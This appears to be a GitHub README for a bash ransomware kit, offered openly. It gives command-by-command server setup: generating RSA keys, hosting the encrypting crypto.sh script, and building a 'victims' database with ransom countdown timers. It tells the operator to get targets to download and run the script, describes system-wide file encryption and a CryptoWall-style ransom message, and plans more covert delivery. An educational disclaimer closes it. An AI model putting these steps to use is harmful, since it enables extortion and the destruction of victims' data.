 # Bash Ransomware

## Requirements
 - openssl
 - jquery
 - mysql
 - php 5 (php5-mysql)

## What to do on the server-side
 - $ openssl genrsa -out priv.pem 4096
 - $ openssl rsa -pubout -in priv.pem -out pub.pem
 - $ mkdir -p /var/www/html/downloads
 - $ cp pub.pem /var/www/html/downloads/
 - > Modify crypto.sh and replace the IPwith your web server's IP/URL
 - $ cp crypto.sh /var/www/html/downloads/
 - > Copy all of the ransomware files to /var/www/html
 - > You should have all of the php files in the root of your web dir (/var/www/html/)
 - > You should also have /var/www/html/images/ and /var/www/html/scripts/
 - $ cd /var/www/html/downloads
 - $ python -m SimplHTTPServer 8080 &
 - $ cd ../
 - > Modify admin.php, admin_query.php, decrypt.php, query.php, and target.php with your database information
 - > Next, create the database for storing the data
 - $ mysql -u [user] -p
 - $ create database victims;
 - $ use victims;
 - $ create table target_list (id int(6) unsigned auto_increment primary key, unique_id varchar(16) not null, target_ip varchar(30), curr_time timestamp not null, exp_time timestamp not null, time_expired bool not null);
 - $ exit

## What to do on the client-side
 - Get target to download the file and execute or if you have have access to the system, download it directly
 - $ chmod 755 crypto.sh
 - $ ./crypto.sh &

## What it does
 - Downloads the public key and key file to the target
 - Move DB settings into a common.php file and refer to that file in each of the scripts (One place to edit instead of numerous places)
 - Loops through the system and encrypts the various files
 - Deletes the key file and leaves the public key
 - Prints the ransom message
 - Links to web pages where the user can see an active countdown of the time that is left before key deletion

## TODO
 - Configure script to download over https, more covert
 - Add in error handling for non-existing files
 - Imporve functionality and capabilities
 - Unique key pair per victim (In work)
 - Add Screenshots
 - Make ransom message on web page prettier 

## Acknowledgements/Contributors
  - Special thanks to zmallen and his lollocker (https://github.com/zmallen/lollocker)
  - lollocker served as the inspiration for this project
  - CryptoWall message text used came from https://www.pcrisk.com/removal-guides/7844-cryptowall-virus

## WARNING 
  - Use this tool at your own risk. Author is not responsible or liable if you damage your own system or others. Follow all local, state, federal, and international laws as it pertains to your geographic location. Do NOT use this tool maliciously as it is being released for educational purposes for use in cyber exercises or demonstrations of adversarial tools.
